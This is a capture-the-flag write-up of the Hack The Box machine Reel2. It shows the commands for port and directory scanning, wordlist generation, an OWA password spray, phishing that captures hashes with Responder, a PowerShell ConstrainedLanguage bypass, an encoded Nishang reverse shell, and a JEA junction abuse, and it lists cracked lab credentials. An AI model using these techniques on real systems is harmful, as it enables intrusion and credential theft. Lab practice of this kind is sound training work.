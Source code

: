 Hello friends!
Today I'm going to take you around a special machine on hackthebox platform: Reel2
<img src="/src/reel2.png">

It was a hard machine as the statistiques show!
First we start as usual with running <emb>nmap</emb> to see open ports and services.

<span style="color:blue"><emb># nmap -sV -T4 -oA nmap 10.10.10.210</emb></span>

The result shows a bunch of ports: 80, 443, 8080, 600x.


<img src="/src/nmap1.png">

We will start by ports 80 and 443, which only show a default windows IIS server default page. In this case we will launch a directory/files brute force to see if can find some juicy entries.

<span style="color:blue"><emb># dirsearch.py -e php,html -u http://10.10.10.210/ -t 50 -w wordlist.txt</emb></span>


<span style="color:blue"><emb># dirsearch.py -e php,html -u https://10.10.10.210/ -t 50 -w wordlist.txt</emb></span>


The results show the existing of exchange server and the web posrtal is accessible through https://10.10.10.210/owa (we can guess from the fisrt look that the exchange version is 2010)

Next step is to build username and password lists to brute force the OWA access. At this point we can use large wordlists but it may take an eternity to finish the attack.

The next open port is 8080 which exposes a social media website called "wallstant". We create a new account and start to look for some vulnerablities on that site. As by now, we will use this site to generate wordlists for username and password.


The following command will generate a worldlist using CEWL program (-m is used for minimum word length, -d used depth to spider):


<span style="color:blue"><emb># cewl -w passlist.txt -m 2 -d 4 -H Cookie:PHPSESSID=q7lmf0h6m81u4propu0r1s4reh --proxy_host 127.0.0.1 --proxy_port 8080 http://10.10.10.210:8080/</emb></span>


To generate a wordlist for usernames we make a curl to search endpoint which contains names of blog users.


<span style="color:blue"><emb># curl -v --cookie "PHPSESSID=q7lmf0h6m81u4propu0r1s4reh" http://10.10.10.210:8080/search > site.txt</emb></span>


The following will create a list from the output of curl command:


<span style="color:blue"><emb># html2dic site.txt >> list.txt</emb></span>

You can also use some burp extensions to generate those wordlists: <a href="https://github.com/PortSwigger/wordlist-extractor">Example 1</a> or <a href="https://github.com/tinmyowin7/Wordlist-Generator">Example 2</a>


After generating those wordlists we have many tools to perform a password spray attack: Take every username in the user's list and test it against every password in password's list.
Examples of tools: <a href="https://github.com/sensepost/ruler">Ruler</a>, <a href="https://github.com/byt3bl33d3r/SprayingToolkit">SprayToolkit</a>


<span style="color:blue"><emb># ./atomizer.py owa http://reel2:443/owa passwords.txt users.txt --threads 20 --debug --interval 0:0:2</emb></span>


After some time we have a valid credentials: <span style="color:red">s.svensson:Summer2020</span>


We login with s.svensson account, and we can see that we have a list of users in the owa adress book, an evident tought that come to our mind is to send a phishing email to all users, with an email body set to out attacker machine. 


We set our responder as follow: <span style="color:blue"><emb># responder -I tun0 -v</emb></span>


A few seconds later we got NTLMv2 hash for a k.svensson, and we launch hashcat to crack that hash: <span style="color:red">k.svensson:kittycat1</span>


At this stage we will try to use this crendentials to execute powershell remoting, we had a problem of ConstrainedLanguage mode in that powershell session. To bypass this restriction we can create a function and call it, or we use the & sign to execute commands. So the following will execute `whoami` command: 


```
PS> Invoke-Command -ComputerName 10.10.10.210 -Credential 'HTB.local\k.svensson' -Authentication Negotiate -ScriptBlock {&{whoami}}

PowerShell credential request
Enter your credentials.                                                                                                                                                          
Password for user HTB.local\k.svensson: *********

htb\k.svensson
```

Next we want to get a reverse shell on the box.
We will use nishang and base64 encode it:


<span style="color:blue"><emb># cat Invoke-PowershellTcpOnLine.ps1 | iconv -t utf-16le | base64 -w 0</emb></span>


And then we send it to get the reverse shell with `-enc` to decrypt it:
<img src="/src/rev1.png">

We can read the user.txt flag.

Next step is to have administrator access to the box or at least find out a way to read the root.txt flag!

In the desktop of k.svensson we see a Sticky Note link wich can be a good start to find some interesting stuff.

We can search for specific files or some content that have specific terms like "password", "psrc", "pssc" or "jea".

The following command helps us to look for files that end with `.log` extension: 

<span style="color:blue"><emb>PS> get-childitem -path C:\ -File -Recurse -Include *.log -ErrorAction SilentlyContinue -Force</emb></span>

The search shows us a file that contains credentials for a new account: <span style="color:red">jea_test_account:Ab!Q@vcg^%@#1</span>

We spent some time reading about JEA (Just Enough Administration), which is a security technology that enables delegated administration for anything managed by PowerShell. Reading the configuration files (C:\Users\k.svensson\Documents\jea_test_account.psrc and C:\Users\k.svensson\Documents\jea_test_account.pssc), we discover that jea_test_account is the only user who can execute a commandlet named `Check-File` which gets the content of a file only if it is inside `D:/` or `C:/ProgramData`

The final step is the create a Junction which is a soft link for folders in Windows (like symbolic links in Linux).

<span style="color:blue"><emb>PS> New-Item -ItemType Junction -Path 'C:\ProgramData\hecsv' -Target 'C:\Users\Administrator'</emb></span>

All what we have to do is to login as jea_test_account and read the root.txt through check-file cmdlet.

To connect to jea we do the following:

  
```
$user = "jea_test_account"
  

PS> $pass = ConvertTo-SecureString "Ab!Q@vcg^%@#1" -AsPlainText -Force


PS> $cred = New-Object System.Management.Automation.PSCredential -ArgumentList  ($user, $pass)


PS> Enter-PSSession -Computer 10.10.10.210 -credential $cred -ConfigurationName jea_test_account -verbose -debug -Authentication Negotiate
```

<img src="/src/root2.png">

`Check-File C:\programdata\hecsv\Desktop\root.txt`

<img src="/src/root3.png">

That's it for today, hope you enjoyed the read!

See you next time.
